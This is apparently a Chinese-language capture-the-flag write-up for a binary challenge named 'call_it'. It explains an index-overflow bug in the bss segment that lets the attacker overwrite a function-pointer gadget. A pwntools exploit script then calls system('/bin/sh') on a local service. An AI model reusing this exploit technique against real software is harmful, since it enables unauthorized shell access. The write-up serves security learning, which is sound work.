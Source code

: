 # call_it

”叽里咕噜说什么呢”

搜索JOP（jump oriented programming）可以得到这篇文章： https://fdlucifer.github.io/2021/01/05/jop-and-pcop

然而做这道题完全不需要阅读任何前置知识。关键的漏洞在于，即使我们走了default case，计数变量i仍会增加。bss段的talks位于gestures前面，所以当i足够大时，我们能够覆盖gestures

gift gadget内容为`(**(code **)(param_1 + 0x10))(*(undefined8 *)(param_1 + 8))`。按照这个格式把system和`/bin/sh`填好即可
```py
from pwn import *
p=remote("localhost",38471)
def talk(payload):
    p.sendlineafter(": ",'1')
    p.sendafter("? ",payload)
for i in range(8):
    p.sendlineafter(": ",'6')
talk(p64(0x00401231)+p64(0x004040e0+0x18)[:-1]) #“最难”的地方在于不能正好输入0x10个字节，否则新循环的scanf会失败，导致程序退出
talk(p64(0x00401228)+b'/bin/sh')
p.sendlineafter(": ",'0')
p.interactive()
```